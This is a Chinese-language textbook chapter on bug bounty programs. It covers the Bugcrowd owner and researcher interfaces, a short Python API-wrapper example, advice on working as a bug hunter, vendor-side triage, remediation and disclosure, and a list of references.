Bugcrowd 还允许两种形式的研究人员补偿：金钱和 Kudos。资助计划建立后，所有者会根据可配置的标准，为提交分配一个资金池。Kudos 计划不提供资金，而是为研究人员提供吹嘘的资本，他们积累 Kudos 并在平台上与其他研究人员进行排名。此外，Bugcrowd 使用排名系统邀请一部分研究人员加入私有赏金计划。

Bugcrowd 网页界面分为两部分：一部分面向计划所有者，另一部分面向研究人员。

## 计划所有者网页界面

计划所有者的网页界面是一个 RESTful 接口，用于自动化管理漏洞赏金计划。

## 摘要

漏洞赏金计划中的第一个屏幕是摘要屏幕，它突出显示了未分类提交的数量。在提供的示例中，有五个提交尚未分类。其他总计表示已分类的项目数（显示为“待审核”）、待解决的项目数（显示为“待修复”）和已解决的项目数（显示为“已修复”）。活动日志在屏幕底部显示。


## 提交

程序所有者的 Web 界面中的下一个屏幕是提交屏幕。在这个屏幕的左侧，您可以看到提交队列及其优先级。它们显示为 P1（紧急）、P2（高）、P3（中等）、P4（低）和 P5（信息），如下所示。



中心窗格中包含提交的描述，以及任何元数据（包括附件）。屏幕右侧提供了更新提交总体状态的选项。“开放”状态级别包括新建、已分级和未解决，“已关闭”状态级别包括已解决、重复、超出范围、无法重现、不会修复和不适用。您还可以从屏幕的这一侧调整提交的优先级、将提交分配给团队成员以及向研究人员奖励。

## 研究人员

您可以通过选择顶部菜单中的“研究人员”选项卡来查看研究人员。研究人员屏幕如下所示。如您所见，只有一名研究人员正在参与赏金计划，并且他有五个提交。



## 奖励研究人员

作为程序所有者选择奖励时，您将在右侧看到一个可配置的奖励列表供您选择。在以下示例中，研究人员获得了 1,500 美元的赏金。



## 奖励

您可以通过选择顶部菜单中的“奖励”选项卡来查找奖励摘要。正如本示例所示，资金池可能由平台管理，所有资金和支付交易均由 Bugcrowd 处理。



## 洞察

Bugcrowd 在“洞察”屏幕为程序所有者提供关键洞察。它显示关键统计数据，并对提交提供分析，例如目标类型、提交类型和技术严重性。



## 已解决状态

作为程序所有者，当您解决或以其他方式裁决一个问题时，可以在提交详细摘要右侧选择一个新状态。在本示例中，提交被标记为“已解决”，这实际上会关闭该问题。



## API 访问设置

Bugcrowd 功能的应用程序编程接口（API）提供给程序所有者。要设置 API 访问权限，请在屏幕右上角的下拉菜单中选择 API 访问。然后，您可以为 API 提供名称并创建 API 令牌。



API 令牌提供给程序所有者，并且仅在以下屏幕上显示。您需要记录该令牌，因为它在此屏幕之后不再显示。


注意 此处显示的令牌已被撤销，将不再有效。请联系 Bugcrowd 建立您自己的程序并创建 API 密钥。



### 程序所有者 API 示例

作为程序所有者，您可以通过使用 Curl 命令与 API 交互，如位于 https://docs.bugcrowd.com/v1.0/docs/authentication-v3 的 API 文档中所示。

### bug-crowd-api.py 封装库

非官方的 Bugcrowd API 封装库可在 https://github.com/asecurityteam/bug_crowd_client 处找到。

该库可以使用 Pip 安装，如下所示：

```
$ sudo pip install bug-crowd-api-client
```

### 获取 Bug 赏金提交

使用前述 API 密钥和 bug-crowd-api 封装库，您可以以编程方式与提交进行交互。例如，您可以使用以下代码从第一个 Bug 赏金计划的第一个提交中提取描述：

```
$ cat bug-crowd-api.py
from bug_crowd.client import BugcrowdClient
client = BugcrowdClient('byokndblkr:D3kupJMuCl8lYULZlSX_scG6ConJSVwQcJ1nXC8ND_a0N6Ewc2UK_RondaM2FFKW47DKj9p')
bounties = client.get_bounties()
submissions = list(client.get_submissions(bounties[0]))
#print the name and tagline for the first bounty program
print "Name: " + bounties[0].get("organization").get("name")
print "Tagline: " + bounties[0].get("tagline")
print "****************************************"
#print the first submission description
print "Submission Description: " + submissions[0].get("description_markdown")
$
$ python bug-crowd-api.py
Name: Tyrell Corporation
Tagline: More human than human
******************************************
Submission Description: It is possible to access the Tyrell Corporation's Mainframe Interface admin portal through the open internet.
$
```

如您所见，API 封装库允许轻松检索赏金或提交数据。有关功能的完整说明，请参阅 API 文档。

## 研究人员 Web 界面

作为研究人员，如果受 Bugcrowd 团队邀请加入私有 Bug 赏金计划，您将收到类似以下的邀请，该邀请可通过访问屏幕右上角的下拉菜单并在“邀请”菜单下找到。



以研究人员身份加入 Bugcrowd 后，您将看到此处显示的选项（从主仪表板访问）。您可以查看“快速提示”（通过点击链接），查看公开赏金计划列表，或提交测试报告。

## 在 Bugcrowd 上开始安全研究人员之旅

以下是首次安全研究人员的一些快速提示，或者您可以立即参与我们的正在进行的计划开始。

提交测试报告时，您将被引导至“黑客我！”（Hack Me!）Bug 赏金计划，该计划是新研究人员用来实践的沙盒。通过填写表单并单击提交，您可以测试用户界面，并了解提交到实际计划时的预期情况。例如，您将收到一封带有提交链接的感谢电子邮件。这样，您就可以提供评论并与程序所有者沟通。



## 靠找 Bug 谋生

那么，您想成为一名 Bug 赏金猎人，但这能赚多少钱？据报道，有些人每年通过 Bug 赏金赚取 200,000 美元或更多。32 不过，可以肯定地说，这是例外而非常态。话虽如此，如果您有兴趣磨练查找 Bug 的技能并为自己的努力赚取一些钱，那么您需要考虑以下问题。

## 选择目标

首先要考虑的问题之一是针对什么进行 Bug 狩猎。最好的方法是在 Firebounty.com 等注册表上开始搜索赏金计划。产品越新，界面越晦涩，您就越有可能发现未被发现的问题。请记住，对于大多数计划，只有第一份报告会获得奖励。通常，Bugcrowd.com 等网站会列出任何已知安全问题，因此您无需在已经报告过的问题上浪费时间。您在研究目标及其已知问题上投入的任何精力都是物超所值的。

## 注册（如有需要）

某些计划要求您注册，甚至可能需要第三方审核后才能参与。只要您不介意将身份证明副本发送给 NetVerify 等第三方，此过程通常很简单。如果这对您来说是个问题，请跳过——还有很多其他不需要这种级别注册的目标。

## 了解游戏规则

每个计划都会有一套条款和条件，您最好仔细阅读它们。通常，如果您向 Bug 赏金计划提交漏洞，将丧失在计划外披露漏洞的权利。换句话说，您可能需要与供应商协调披露，并且可能只有在供应商允许您披露的情况下才能披露。不过，有时这是可以协商的，因为供应商有理由与您（作为研究人员）合理打交道，以防止您自行披露。在最佳情况下，供应商和研究人员将达成双赢局面，即研究人员能及时获得报酬，而供应商也能及时解决安全问题——在这种情况下，公众也受益。

## 发现漏洞

一旦您找到目标、注册（如有需要）并了解条款和条件，就可以开始查找漏洞了。您可以使用多种方法来完成此任务，如本书中概述的模糊测试、代码审查以及应用程序的静态和动态安全测试。每位研究人员往往会找到并遵循最适合自己的流程，但某些基本步骤始终是必要的：

- 枚举攻击面，包括端口和协议（OSI 层 1–7）。
- 对应用程序进行指纹识别（OSI 层 7）。
- 评估身份验证（OSI 层 5–7）。
- 评估授权（OSI 层 7）。
- 评估输入验证（OSI 层 1–7，具体取决于应用程序或设备）。
- 评估加密（OSI 层 2–7，具体取决于应用程序或设备）。


每个步骤都有许多子步骤，并可能导致潜在漏洞。

## 上报漏洞

并非所有漏洞报告都同等重要，也并非所有漏洞都能及时修复。不过，你可以采取一些措施来提高问题被修复并获得补偿的可能性。

研究表明，包含堆栈跟踪和代码片段且易于阅读的漏洞报告，比其他报告更有机会被更快修复。³³ 这很合理：让软件开发人员更容易理解，你就更有可能获得结果。毕竟，身为一名道德黑客，你确实希望漏洞能及时修复，对吧？古语有云：用蜜捕苍蝇比用醋更管用。³⁴ 简单来说，你提供的信息越多，格式越易于跟进和复现，你就越有可能获得补偿，也就不太可能被不必要地判定为“重复报告”。

## 兑现奖金

漏洞报告经验证为有效且唯一后，作为研究人员的你应当期望获得补偿。报酬形式多种多样——从现金到借记卡再到比特币。请注意相关法规：任何超过20,000美元的补偿，必须由供应商或漏洞赏金平台提供商向美国国税局（IRS）申报。³⁵ 无论如何，你都应咨询税务顾问，了解漏洞赏金活动所得收入的税务影响。

## 事件响应

在讨论完进攻方面之后，让我们将注意力转向防御方面。你的组织将如何处理事件报告？

## 沟通

沟通是任何漏洞赏金计划成功的关键。首先，研究人员与供应商之间的沟通至关重要。如果沟通中断，一方可能会不满，并在未告知另一方的情况下公开披露，这通常不会有好结果。另一方面，如果尽早并频繁地建立沟通，研究人员与供应商之间可能会建立关系，双方更有可能对结果感到满意。沟通正是Bugcrowd、HackerOne和SynAck等漏洞赏金平台擅长的领域。这是它们存在的主要原因，旨在促进各方之间公平公正的沟通。大多数研究人员期望收到发出的沟通内容能快速回复，供应商应在收到研究人员消息后24至48小时内回复。当然，供应商不应超过72小时不回复研究人员的沟通。

作为供应商，如果你计划运营自己的漏洞赏金计划或任何其他漏洞接收门户，请确保研究人员能轻松找到在你的网站上如何报告漏洞。同时，请务必清楚地说明你打算如何与研究人员沟通，以及你打算在合理时间内回复所有消息。通常，当研究人员与供应商合作感到沮丧时，他们会指出供应商未回应并忽略沟通这一事实。这可能导致研究人员在未通知供应商的情况下公开披露。作为供应商，请意识到这一陷阱并努力避免。研究人员掌握着你作为供应商成功修复问题所需的关键信息，前提是该问题尚未成为公众所知。你掌握着该过程顺利进行的关键：沟通。

## 分类处理

收到漏洞报告后，需要进行分类处理，以快速判断问题是否有效且唯一，如果是，其严重程度如何。通用漏洞评分系统（CVSS）和通用弱点评分系统（CWSS）在进行此类分类处理时非常有用。CVSS应用更为广泛，其基础因素包括基础度量、时间度量和环境度量。网上有计算器可用于确定特定软件漏洞的CVSS评分。CWSS应用较少，且自2014年以来未更新；然而，它通过引入基础度量、攻击面和环境度量等因素，为漏洞提供了更多上下文和排名功能。通过使用CVSS或CWSS，供应商可以对漏洞和弱点进行排名，从而做出内部决策，确定首先优先处理并分配资源解决哪些问题。

## 修复

修复是漏洞披露的主要目的。毕竟，如果供应商不及时解决问题，研究人员将转而进行完全公开披露，迫使供应商进行修复。因此，供应商必须安排并在及时（通常为30至45天）内修复安全漏洞。大多数研究人员愿意在公开前等待那么久；否则，他们一开始就不会联系供应商。

至关重要的是，不仅要修复漏洞，还要审查周围代码或相似代码，以确认是否存在相关弱点。换句话说，作为供应商，应抓住机会审查所有代码库中的此类漏洞，以确保下个月的“灭火演练”不会再次涉及你的另一款产品。相关地，请确保修复不会引入另一个漏洞。研究人员会检查补丁，确保你并未只是移动东西或以其他方式掩盖漏洞。

## 向用户披露

向用户披露还是不披露：这是一个问题。在某些情况下，当研究人员得到充分补偿时，供应商可能能够阻止研究人员未经其同意进行公开披露。但从实际情况来看，真相最终会大白，无论是通过研究人员还是网络上其他匿名人士。因此，作为供应商，你应向用户披露安全问题，包括有关漏洞的某些基本信息、其作为安全问题的事实、潜在影响以及如何打补丁。

## 公共关系

公开的漏洞披露信息对于用户群体认识问题并实际应用补丁至关重要。在最佳情况下，供应商与研究人员之间会协商一致的披露方案，研究人员（如有需要）会得到供应商的适当致谢。通常，研究人员随后会发布自己的披露，称赞供应商的合作。这通常被视为软件供应商的积极因素。然而，在其他情况下，一方可能会抢先另一方，而用户通常是受害者。如果披露沟通不畅，用户可能会感到困惑，甚至可能未能意识到问题的严重性，因此不应用补丁。这种情景有可能演变成一场公共关系噩梦，因为其他各方会发表评论，事件会自行发展。

## 总结

在本章中，我们讨论了漏洞赏金。我们首先讨论了披露的历史以及创建漏洞赏金的原因。接着，我们讨论了不同类型的漏洞赏金，重点介绍了Bugcrowd平台。然后，我们讨论了如何通过报告漏洞谋生。最后，我们介绍了一些作为供应商响应漏洞报告的实用建议。本章应能更好地帮助你作为研究人员和供应商处理漏洞报告。

## 进一步阅读

- Bugcrowd bugcrowd.com
- HackerOne hackerone.com
- Iron Geek 博客（Adrian Crenshaw）www.irongeek.com/i.php?page=security/ethics-of-full-disclosure-concerning-security-vulnerabilities
- 开源技术改进基金（OSTIF）ostif.org/the-ostif-mission/
- SynAck synack.com
- 关于漏洞赏金的 Wikipedia en.wikipedia.org/wiki/Bug_bounty_program
- 关于 Bugtraq 的 Wikipedia en.wikipedia.org/wiki/Bugtraq

## 参考文献

- 1. Synopsys，“Coverity Scan开源报告显示商业代码比开源代码更符合安全标准，”Synopsys，2015年7月29日，https://news.synopsys.com/2015-07-29-Coverity-Scan-Open-Source-Report-Shows-Commercial-Code-Is-More-Compliant-to-Security-Standards-than-Open-Source-Code.
- 
- 
- 2. J. P. Choi, C. Fershtman, 和 N. Gandal，“网络安全：漏洞与披露政策，”《工业经济学杂志》，第58卷，第4期，第868–894页，2010年。
- 
- 
- 3. K. Zetter，“与雨林青蛙三分钟 | PCWorld，”PCWorld，2012年1月5日。
- 
- 
- 4. “完全披露（邮件列表），”Wikipedia，2016年9月6日。
- 
- 
- 5. B. Schneier，“文章：Schneier：完全披露安全漏洞是‘绝妙主意’。”Schneier on Security，2007年1月，https://www.schneier.com/essays/archives/2007/01/schneier_full_disclo.html.
- 
- 
- 6. M. J. Ranum，“漏洞披露游戏：我们更安全了吗？”CSO Online，2008年3月1日，www.csoonline.com/article/2122977/application-security/the-vulnerability-disclosure-game--are-we-more-secure-.html.
- 
- 
- 7. Schneier，“文章。”
- 
- 
- 8. Imperva, Inc.，“Imperva | 新闻稿 | Web渗透测试分析显示93%的应用程序在‘修复’后仍存在漏洞，”2004年6月，http://investors.imperva.com/phoenix.zhtml?c=247116&p=irol-newsArticle&ID=1595363。[访问日期：2017年6月18日]
- 
- 
- 9. A. Sacco，“Microsoft：负责任的漏洞披露保护用户，”CSO Online，2007年1月9日，www.csoonline.com/article/2121631/build-cisdl/microsoft--responsible-vulnerability-disclosure-protects-users.html。[访问日期：2017年6月18日]。
- 
- 
- 10. Schneier，“文章。”
- 
- 
- 11. G. Keizer，“从漏洞披露中删除‘负责任’，Microsoft敦促，”Computerworld，2010年7月22日，www.computerworld.com/article/2519499/security0/drop--responsible--from-bug-disclosures--microsoft-urges.html。[访问日期：2017年6月18日]。
- 
- 
- 12. Keizer，“从漏洞披露中删除‘负责任’。” 
- 
- 
- 13. “Project Zero（Google），”Wikipedia，2017年5月2日。
- 
- 
- 14. “CERT协调中心，”Wikipedia，2017年5月30日。
- 
- 
- 15. CERT/CC，“漏洞披露政策，”漏洞分析 | CERT分部，www.cert.org/vulnerability-analysis/vul-disclosure.cfm？[访问日期：2017年6月18日]。
- 
- 
- 16. D. Fisher，“软件供应商不再享受免费漏洞，”Threatpost | 首选站点
- 
- 


安全新闻，2009年3月23日，https://threatpost.com/no-more-free-bugs-software-vendors-032309/72484/。[访问日期：2017年6月18日]。

- 17. P. Lindstrom，“不再有免费漏洞”，Spire Security Viewpoint，2009年3月26日，http://spiresecurity.com/?p=65。

- 18. A. O’Donnell，“‘不再有免费漏洞’？从来没有免费漏洞这回事”，ZDNet，2009年3月24日，www.zdnet.com/article/no-more-free-bugs-there-never-were-any-free-bugs/。[访问日期：2017年6月18日]。

- 19. “漏洞赏金计划”，Wikipedia，2017年6月14日。

- 20. Mozilla Foundation，“Mozilla基金会宣布安全漏洞赏金计划”，Mozilla新闻中心，2004年8月，https://blog.mozilla.org/press/2004/08/mozilla-foundation-announces-security-bug-bounty-program/。[访问日期：2017年6月25日]。

- 21. “Pwn2Own”，Wikipedia，2017年6月14日。

- 22. E. Friis-Jensen，“漏洞赏金计划的历史”，Cobalt.io，2014年4月11日，https://blog.cobalt.io/the-history-of-bug-bounty-programs-50def4dcaab3。[访问日期：2017年6月18日]。

- 23. C. Pellerin，“国防部邀请经过审查的专家‘黑客攻击’五角大楼”，美国国防部，2016年3月。https://www.defense.gov/News/Article/Article/684616/dod-invites-vetted-specialists-to-hack-the-pentagon/。[访问日期：2017年6月24日]。

- 24. J. Harper，“硅谷可能颠覆网络安全范式”，《国防杂志》，第101卷，第759期，第32–34页，2017年2月。

- 25. B. Popper，“新一代初创公司正在帮助黑客合法赚取数百万”，The Verge，2015年3月4日，https://www.theverge.com/2015/3/4/8140919/get-paid-for-hacking-bug-bounty-hackerone-synack。[访问日期：2017年6月15日]。

- 26. T. Willis，“Pwnium V：永无止境* Pwnium”，Chromium博客，2015年2月。

- 27. Willis，“Pwnium V。”

- 28. “漏洞赏金——它们是什么以及为什么有效”，OSTIF.org，https://ostif.org/bug-bounties-what-they-are-and-why-they-work/。[访问日期：2017年6月15日]。

- 29. T. Ring，“为什么漏洞猎人正从野外归来”，《计算机欺诈与安全》，第2014卷，第2期，第16–20页，2014年2月。

- 30. E. Mills，“Facebook向黑客发放白帽子借记卡”，CNET，2011年12月，https://www.cnet.com/news/facebook-hands-out-white-hat-debit-cards-to-hackers/。[访问日期：2017年6月24日]。

- 31. Mills，“Facebook向黑客发放白帽子借记卡。”

- 32. J. Bort，“这位黑客作为‘漏洞赏金猎人’每年额外赚取10万美元”，Business Insider，2016年5月，www.businessinsider.com/hacker-earns-80000-as-bug-bounty-hunter-2016-4。[访问日期：2017年6月25日]。

